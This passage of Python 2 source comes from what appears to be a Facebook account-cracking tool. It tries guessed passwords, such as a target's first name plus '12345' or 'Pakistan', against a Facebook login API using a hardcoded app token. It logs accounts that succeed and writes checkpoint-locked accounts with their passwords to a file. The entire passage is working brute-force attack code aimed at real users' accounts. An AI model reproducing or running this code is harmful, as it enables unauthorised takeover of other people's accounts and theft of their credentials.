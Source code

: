 												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass5	
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + '12345'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
														z = json.loads(x.text)
														print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass6	
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass6	
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'Pakistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
																z = json.loads(x.text)
																print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass7	
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass7	
																	cek = open("out/checkpoint.txt", "a")
                                                                                                                                        cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
															
		except:
			pass
		